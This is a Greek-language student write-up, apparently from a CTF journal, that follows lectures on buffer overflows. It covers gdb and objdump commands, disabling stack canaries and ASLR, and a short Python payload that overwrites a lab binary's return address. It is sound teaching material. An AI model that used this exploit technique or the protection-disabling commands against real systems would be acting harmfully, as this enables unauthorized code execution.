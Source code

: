 # Εισαγωγή σε Buffer Overflow Attacks

## Διαλέξεις

- [Διάλεξη 1](https://delos.uoa.gr/opendelos/videolecture/show?rid=c9554f73)
- [Διάλεξη 2](https://delos.uoa.gr/opendelos/videolecture/show?rid=5ddddcb3)

## Περιεχόμενο

Στις παραπάνω διαλέξεις εξετάσαμε:

1. **Εισαγωγή στην x86 Assembly**: Μια σύντομη επισκόπηση της αρχιτεκτονικής και των βασικών εντολών.
2. **Ανάλυση προγραμμάτων μέσω εργαλείων**:
   - Χρήση του `objdump` για αποσυναρμολόγηση (disassembly) εκτελέσιμων αρχείων.
   - Χρήση του `gdb` για δυναμική ανάλυση και debugging.
3. **Εκμετάλλευση Buffer Overflow**:
   - Πώς μπορούμε να εκμεταλλευτούμε σφάλματα διαχείρισης μνήμης.
   - Επιθέσεις buffer overflow και τρόποι πρόκλησής τους.

Οι παραπάνω τεχνικές αποτελούν θεμελιώδεις αρχές στην ασφάλεια συστημάτων και την ανάλυση κακόβουλου λογισμικού.

---

## Εισαγωγή στο objdump και ανάλυση του buf0

Το `objdump` είναι ένα εργαλείο που μας επιτρέπει να αναλύσουμε το περιεχόμενο εκτελέσιμων αρχείων και να δούμε τη δομή τους. Η επιλογή `-d` στο `objdump` σημαίνει decompile και χρησιμοποιείται για την αποσυναρμολόγηση ενός εκτελέσιμου αρχείου.

Όταν χρησιμοποιούμε το `objdump -d buf0`, μπορούμε να βρούμε τη διεύθυνση της συνάρτησης `thank_you`. Ωστόσο, αυτές οι διευθύνσεις είναι relative προς τη βάση του εκτελέσιμου αρχείου και μπορεί να αλλάξουν κατά την εκτέλεση λόγω του ASLR (address space layout randomization).

Για να βρούμε τη σωστή διεύθυνση κατά την εκτέλεση του προγράμματος, πρέπει να χρησιμοποιήσουμε το `gdb`.

### Βήματα για να βρούμε τη σωστή διεύθυνση της συνάρτησης `thank_you`:

1. **Χρήση του `objdump`**:

   ```sh
   objdump -d buf0 | grep thank_you
   ```

   Αυτό θα επιστρέψει τη relative διεύθυνση της συνάρτησης στο εκτελέσιμο.

2. **Χρήση του `gdb` για να βρούμε τη πραγματική διεύθυνση**:

   ```sh
   gdb ./buf0
   break main
   run <όρισμα>
   info address thank_you
   ```

   Αυτή η εντολή θα επιστρέψει την πραγματική διεύθυνση της συνάρτησης στη μνήμη κατά την εκτέλεση του προγράμματος.

---

### Χρήσιμες Εντολές `gdb`

- Προβολή της τιμής στη διεύθυνση που δείχνει ο δείκτης στοίβας:

  ```sh
  x/x $rsp  # Για x86_64, προβολή 4 bytes (word)
  x/gx $rsp  # Για x86_64, προβολή 8 bytes (giant word)
  x/x $esp  # Για x86
  ```

  Η εντολή `x/x $rsp` θα εμφανίσει την τιμή στη διεύθυνση που δείχνει ο δείκτης στοίβας (stack pointer) ως word (4 bytes). Για να δείτε 8 bytes (64 bits), χρησιμοποιήστε την εντολή `x/gx $rsp`.

- Προβολή της τιμής ως string:

  ```sh
  x/s $rsp  # Για x86_64
  x/s $esp  # Για x86
  ```

- Προβολή των 5 πρώτων τιμών του δείκτη στοίβας:

  ```sh
  x/5x $rsp  # Για x86_64 ή x86
  ```

- Αν μία από αυτές τις τιμές είναι δείκτης σε string:

  ```sh
  x/s 0x7ffff7b0  # Αν 0x7ffff7b0 είναι διεύθυνση σε string
  ```

- Προβολή της εντολής που δείχνει ο δείκτης εντολών:

  ```sh
  x/i $rip  # Για x86_64
  x/i $eip  # Για x86
  ```

- Προβολή των επόμενων 5 εντολών από την τοποθεσία του δείκτη εντολών:

  ```sh
  x/5i $rip  # Για x86_64
  x/5i $eip  # Για x86
  ```

- Αποσυναρμολόγηση της συνάρτησης `main`:

  ```sh
  disas main
  ```

- Προβολή των περιοχών μνήμης του προγράμματος:

  ```sh
  info proc mappings
  ```

- Τοποθέτηση σημείου διακοπής σε συγκεκριμένη διεύθυνση:

  ```sh
  break *0xADDRESS
  ```

  Για παράδειγμα, αν θέλετε να τοποθετήσετε ένα σημείο διακοπής στη διεύθυνση `0x5555555551c5` μέσα στη συνάρτηση `thank_you`, χρησιμοποιήστε την εντολή:

  ```sh
  break *0x5555555551c5
  ```

---

## Απενεργοποίηση Μηχανισμών Προστασίας Στοίβας

Για να μπορέσει να τρέξει το παραπάνω exploit, θα χρεαστεί να απενεργοποιήσουμε κάποιους μηχανισμούς προστασίας στοίβας που χρησιμοποιεί το σύστημα μας όπως τα stack canaries και το ASLR.

### Απενεργοποίηση Stack Canaries

Επαναμεταγλωττίστε το ευάλωτο πρόγραμμα χωρίς προστασία στοίβας. Αν έχετε τον πηγαίο κώδικα, χρησιμοποιήστε την επιλογή `-fno-stack-protector` με το `gcc`:

```sh
gcc -fno-stack-protector -o vulnerable_program source_code.c
```

### Απενεργοποίηση ASLR

Προσωρινή απενεργοποίηση του ASLR:

```sh
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Για να επανενεργοποιήσετε το ASLR μετά την ολοκλήρωση, εκτελέστε:

```sh
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```

---

## Δημιουργία του Exploit

Για να δημιουργήσω το exploit, ακολούθησα τα παρακάτω βήματα:

1. **Ανάλυση της Στοίβας με το `gdb`**:

   - Έτρεξα το πρόγραμμα με `gdb` και τοποθέτησα ένα breakpoint μετά το `strcpy` στη συνάρτηση `print`.
   - Χρησιμοποίησα την εντολή `x/16gx $rsp` για να δω τις 16 τελευταίες μεγάλες λέξεις των 64 bytes που έχει αποθηκευμένη η στοίβα.

   ```sh
   gdb ./buf0
   break *print+20  # Breakpoint μετά το strcpy
   run <όρισμα>
   x/16gx $rsp
   ```

2. **Εύρεση του Offset**:

   - Τοποθέτησα επίτηδες την τιμή `0xffffffff` στο buffer για να δω γρήγορα πού αποθηκεύεται.
   - Χρησιμοποίησα την εντολή `disas main` για να βρω τη διεύθυνση της επόμενης εντολής μετά το `call`.
   - Υπολόγισα το offset από την αρχή του buffer μέχρι τη διεύθυνση επιστροφής.

3. **Δημιουργία του Payload**:

   - Δημιούργησα ένα Python script για τη δημιουργία του payload.

   ```python
   // filepath: /CTF-Journal/Notes/buffer_overflow/augerinos_lecture4/exploit.py
   import sys
   offset = b"AAAAAAAA" * 9
   buffer = offset + b"\xc9\x51\x55\x55\x55\x55\x00\x00"  # 0x5555555551c9

   sys.stdout.buffer.write(buffer)
   ```

4. **Εκτέλεση του Exploit**:

   - Έτρεξα το πρόγραμμα με το payload.

   ```sh
   python3 exploit.py > payload
   sudo ./buf0 $(cat payload)
   ```

Με αυτά τα βήματα, κατάφερα να εκμεταλλευτώ το buffer overflow και να εκτελέσω τη συνάρτηση `thank_you`, αποκτώντας root πρόσβαση.

---

## Συμπέρασμα

Αν και χρειάστηκε να απενεργοποιήσω μηχανισμούς προστασίας και να εκτελέσω το πρόγραμμα με δικαιώματα root, αυτή η άσκηση ήταν πολύτιμη για την κατανόηση των buffer overflow επιθέσεων. Μέσα από αυτή τη διαδικασία, έμαθα πώς να αναλύω τη μνήμη ενός προγράμματος, να βρίσκω ευπάθειες και να δημιουργώ exploits. Αυτές οι γνώσεις είναι θεμελιώδεις για την ασφάλεια συστημάτων και την ανάλυση κακόβουλου λογισμικού. Επιπλέον, η κατανόηση των μηχανισμών προστασίας και πώς να τους παρακάμπτουμε είναι κρίσιμη για την ανάπτυξη πιο ασφαλών συστημάτων στο μέλλον.
